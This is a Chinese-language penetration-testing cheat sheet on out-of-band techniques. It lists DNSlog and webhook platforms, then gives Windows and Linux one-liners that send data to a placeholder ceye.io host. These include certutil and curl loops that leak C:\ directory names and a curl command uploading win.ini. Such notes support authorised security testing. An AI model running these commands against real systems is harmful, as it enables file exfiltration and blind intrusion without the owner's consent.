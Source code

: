 # OOB

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [带外通道技术（OOB）总结](https://www.freebuf.com/articles/web/201013.html)
- [OOB（out of band）分析系列之DNS渗漏](https://cloud.tencent.com/developer/article/1047283)
- [Burpsuite之BurpCollaborator模块介绍](https://www.jianshu.com/p/92b4b8ddf12f)
- [Persistent Access to Burp Suite Sessions - Step-by-Step Guide](https://www.onsecurity.io/blog/persistent-access-to-burp-suite-sessions-step-by-step-guide/)
- [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)
- [HTTP BLIND](https://web.archive.org/web/20200224073305/https://echocipher.github.io/2019/07/22/HTTP-BLIND/)
- [Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface)
- [System Hardening을 피해 RCE를 탐지하기 위한 OOB 방법들](https://www.hahwul.com/2022/03/11/bypass-system-hardening-rce-oob/)
- [ping 命令跨平台探测无回显 RCE 技巧](https://mp.weixin.qq.com/s/6NoLiQll9Cz2WjCUdDs6Mw)

**在线监控平台**
- http://ceye.io/
- https://webhook.site
- http://www.dnslog.cn/
- https://iplogger.org/
- https://log.xn--9tr.com/

**相关工具**
- [uknowsec/SharpNetCheck](https://github.com/uknowsec/SharpNetCheck) - 该工具可以在 dnslog 中回显内网 ip 地址和计算机名，可实现内网中的快速定位可出网机器
- [ztgrace/mole](https://github.com/ztgrace/mole) - 识别和利用out-of-band (OOB)漏洞的burp扩展

**平台搭建**
- [十分钟快速自建DNSlog服务器](https://mp.weixin.qq.com/s/m_UXJa0imfOi721bkBpwFg)
- [DNSLOG的快速搭建攻略](https://www.yinxiang.com/everhub/note/471fd1c4-7885-4b67-aa39-41dc36102b43)
- [安全技术|DNSLOG平台搭建从0到1](https://www.4hou.com/posts/VoJ9)
- [自建DNSLog平台](https://www.mi1k7ea.com/2021/03/29/%E8%87%AA%E5%BB%BADNSLog%E5%B9%B3%E5%8F%B0/)
- [快速搭建自用dnslog](https://blog.csdn.net/m0_58434634/article/details/124315127)

**平台**
- [BugScanTeam/DNSLog](https://github.com/BugScanTeam/DNSLog) - DNSLog 是一款监控 DNS 解析记录和 HTTP 访问记录的工具
- [lanyi1998/DNSlog-GO](https://github.com/lanyi1998/DNSlog-GO) - DNSLog-GO 是一款 golang 编写的监控 DNS 解析记录的工具，自带 WEB 界面
- [chennqqi/godnslog](https://github.com/chennqqi/godnslog)
    ```bash
    docker pull "sort/godnslog"
    docker run -p80:8080 -p53:53/udp "sort/godnslog" serve -domain yourdomain.com -4 100.100.100.100
    # yourdomain.com 替换为你的域名 100.100.100.100 替换为你的公网IP
    ```
- [yumusb/DNSLog-Platform-Golang](https://github.com/yumusb/DNSLog-Platform-Golang) - DNSLOG平台 golang 一键启动版
- [phith0n/conote-community](https://github.com/phith0n/conote-community) - Conote 综合安全测试平台社区版
- [projectdiscovery/interactsh](https://github.com/projectdiscovery/interactsh) - An OOB interaction gathering server and client library
- [Buzz2d0/Hyuga](https://github.com/Buzz2d0/Hyuga) - 一个用来检测带外(Out-of-Band)流量(DNS查询和HTTP请求)的监控工具
- [AbelChe/cola_dnslog](https://github.com/AbelChe/cola_dnslog)
- [AlphabugX/Alphalog](https://github.com/AlphabugX/Alphalog)
- [Li4n0/revsuit](https://github.com/Li4n0/revsuit) - RevSuit is a flexible and powerful reverse connection platform designed for receiving connection from target host in penetration.

---

## Windows

- ping

    ```
    ping %USERNAME%.xxx.ceye.io

    ping -nc 4 %USERNAME%.xxx.ceye.io
    ```

- certutil

    使用 certutil 请求证书文件，并将下载文件重定向到 nul，无缓存、无需浏览器实现发起 http 请求
    ```bash
    for /F %x in ('dir /b c:\') do certutil -urlcache -split -f "http://xxx.ceye.io/?result=%x" nul
    ```

- curl

    windows 环境默认是支持 curl 的
    ```bash
    for /F %x in ('dir /b c:\') do curl http://xxx.ceye.io/%x

    curl -F file=@C:\windows\win.ini http://xxx.ceye.io
    ```

## linux

- curl

    ```
    curl http://xxx.ceye.io/%x
    ```

- wget

    ```
    wget http://xxx.ceye.io/%x
    ```

- ping

    linux 默认 ping 不带 -c 参数是会导致无限ping下去的,一定要带 -c
    ```bash
    ping -c 4 xxx.ceye.io

    ping -nc 4 xxx.ceye.io
    ```

- openssl

    ```
    openssl s_client -connect xxx.ceye.io:80
    ```

- nc

    ```
    echo -e "GET / HTTP/1.1\nHost: http://xxx.ceye.io/%x\n\n" | nc xxx.ceye.io 80
    ```

- dig

    ```
    dig xxx.ceye.io
    ```
